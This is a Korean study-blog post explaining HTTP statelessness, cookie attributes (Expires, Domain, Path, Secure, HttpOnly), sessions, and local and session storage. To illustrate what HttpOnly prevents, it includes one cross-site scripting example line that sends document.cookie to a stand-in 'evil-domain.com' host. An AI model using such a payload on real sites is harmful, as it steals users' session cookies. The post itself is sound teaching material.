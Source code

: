 ```yaml
---
title: 쿠키, 세션 그리고 웹 스토리지
date: 2019-04-16 22:59:48
categories: 
  - WEB
tags: 
  - study
---
```


쿠키, 세션, 웹 스토리지에 대해 간략히 정리해보았습니다.

<!-- more -->

**쿠키**, **세션**, **웹 스토리지**를 설명하기에 앞서 왜 사용하는지를 더 쉽게 이해하기 위해 **HTTP 프로토콜**의 특징을 알아보겠습니다.

### HTTP 프로토콜의 특징

- **비연결지향 (Connectionless)**: 클라이언트가 서버에게 Request를 보내고 서버가 클라이언트에게 Response를 보내면 접속을 종료한다.
- **무상태 (Stateless)**: 통신이 끝나면 상태 정보를 유지하지 않는다.

즉, 클라이언트의 로그인 정보나 브라우저에서 입력한 값 등이 페이지를 이동할 때 마다 초기화 되는 것입니다. 이러한 문제점을 해결하기 위해 데이터 저장에 사용하는 것이 **쿠키**, **세션** 그리고 **웹 스토리지**입니다.

### 쿠키

**쿠키**는 클라이언트 로컬에 저장되는 키와 값 형태의 작은 파일로 이름, 값, 만료 시간, 경로 정보가 들어있습니다.
**쿠키**는 주로 세 가지 목적을 위해 사용됩니다.  
- **세션 관리**: 서버에 저장해야 할 로그인, 장바구니, 게임 스코어 등의 정보 관리
- **사용자 맞춤**: 사용자가 선호하는 옵션이나 테마 등의 세팅
- **사용자 추적**: 사용자의 행동을 기록하고 분석하는 용도 

**Response Header**의 `Set-Cookie` 속성을 사용하면 클라이언트에 쿠키를 만들 수 있으며 만들어진 쿠키는 클라이언트가 따로 설정하지 않아도 브라우저가 **Request Header**에 넣어서 서버로 전송하게 됩니다.

서버의 HTTP 응답 헤더에서 쿠키를 설정합니다.

```
HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: name=hellozin
Set-Cookie: job=developer
```

이후 클라이언트에서 보내는 모든 요청에 브라우저는 `Cookie` 헤더를 통해 저장된 모든 쿠키를 전송합니다.

```
GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: name=hellozin; job=developer
```

이렇게 만들어진 쿠키는 **스코프**에 의해 크게 두가지로 나눌 수 있습니다.

- 클라이언트가 종료되면 삭제되는 휘발성 쿠키인 `Session Cookie`
- 클라이언트가 종료되어도 일정 기간 유지되는 `Permanent Cookie`

**Permanent Cookie**는 `Expires(날짜와 시간)` 혹은 `Max-Age(초)` 를 명시해 해당 날짜, 혹은 시간까지 쿠키를 유지할 수 있고 아무것도 명시하지 않을 경우 **Session Cookie** 가 됩니다.

```
Set-Cookie: name=hellozin; Expires=Wed, 21 Oct 2019 07:28:00 GMT;
```
> 명시된 만료일, 시간은 서버가 아닌 클라이언트를 기준으로 계산됩니다.

**Domain** 과 **Path** 속성은 쿠키의 스코프를 정의합니다.  
**Domain** 속성이 명시되면 해당 쿠키는 서브 도메인에도 포함되고 명시되지 않을 경우 현재 문서 위치의 호스트 일부를 기본값으로 합니다.

```
Domain=naver.com 의 쿠키가 포함되는 서브도메인의 예
- news.naver.com
- m.naver.com
```

**Path** 속성이 명시되면 해당 쿠키는 명시된 path가 포함된 서브 디렉토리에 포함됩니다.

```
Path=/docs 의 쿠키가 포함되는 서브디렉토리의 예
- /docs/Web/
- /docs/Web/HTTP
```

**Secure** 속성은 HTTPS 프로토콜로 암호화 된 요청일 경우에만 쿠키가 포함됩니다. 하지만 Secure 속성을 추가하더라도 안전하다고 볼 수 없기 때문에 민감한 정보는 쿠키에 추가해서는 안됩니다.

**HttpOnly** 속성은 자바스크립트의 `Document.cookie` API를 통 에 의해 쿠키가 접근되는 것을 방지합니다. 이를 통해 인증된 정보를 자바스크립트를 통해 탈취하는 Cross-site 스크립팅(XXS) 공격을 막는데 도움을 줍니다.

```
Set-Cookie: password=DontDoThat; Secure; HttpOnly
```

Cross-site 스크립팅(XXS) 공격의 예
```
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

### 세션

세션이란 일정 시간동안 같은 브라우저로 부터 들어오는 일련의 요구를 하나의 상태로 보고 그 상태를 유지하는 기술입니다.

클라이언트가 **Request** 를 보내면 **Response** 에 `Set-Cookie` 를 통해 클라이언트의 **유일한 ID값**을 생성해 부여하고 이를 통해 사용자 정보는 안전한 서버에 존재하며 클라이언트와 서버 간에는 ID 값만을 전달해 보안 위협을 감소시켜 줍니다.

이 때 클라이언트에 저장되는 쿠키는 세션 종료 시 함께 소멸되는 "Memory Cookie" 타입을 가져 브라우저가 종료되면 세션과 관련된 쿠키도 삭제됩니다.

### 웹 스토리지

**웹 스토리지**는 서버가 아닌, 클라이언트에 데이터를 저장할 수 있도록 지원하는 **HTML5**의 새로운 기능입니다.

**쿠키**와 기능 자체는 유사하지만 **4KB** 밖에 저장하지 못하는 쿠키와 다르게 **웹 스토리지**는 약 **5MB** 까지 저장공간을 이용할 수 있습니다. 웹 스토리지의 최신 스펙은 https://www.w3.org/TR/webstorage/ 에서 확인할 수 있습니다.

웹 스토리지에는 **로컬 스토리지(local Storage)** 와 **세션 스토리지(session Storage)** 가 있습니다. 로컬 스토리지와 세션 스토리지는 각각의 고유한 특성이 있으며, 프로그래머의 필요에 따라 선택적으로 사용됩니다. 다음 항목에서는 로컬 스토리지와 세션 스토리지에 대한 각각의 특성에 대해 설명합니다.

#### 로컬 스토리지

**로컬 스토리지**는 브라우저 자체에 **반영구적**으로 데이터를 저장하며, 브라우저를 종료해도 데이터가 유지됩니다. 다만 **도메인(domain)이 다른 경우** 로컬 스토리지에 접근할 수 없습니다. 예를 들어 `naver.com` 로컬 스토리지에서 저장한 데이터는 `google.com` 에서 접근할 수 없는 것과 같습니다.

#### 세션 스토리지

**세션 스토리지**는 각 세션마다 데이터가 **개별적으로 저장**되며 로컬 스토리지와 다르게 세션을 종료하면 데이터가 **자동으로 제거**되며 같은 도메인이라도 **세션이 다르면** 데이터에 접근할 수 없습니다.

### Reference

- [HTTP 쿠키 / MDN](https://developer.mozilla.org/ko/docs/Web/HTTP/Cookies)
- [쿠키 옵션 - path & domain / 생활코딩](https://opentutorials.org/course/3387/21745)
- [쿠키와 세션의 차이, 용도, 사용법 / 기본기를 쌓는 정아마추어 코딩블로그](https://jeong-pro.tistory.com/80)
- [웹 스토리지 (Web Storage)의 특성과 사용법 / Bool](https://untitledtblog.tistory.com/47)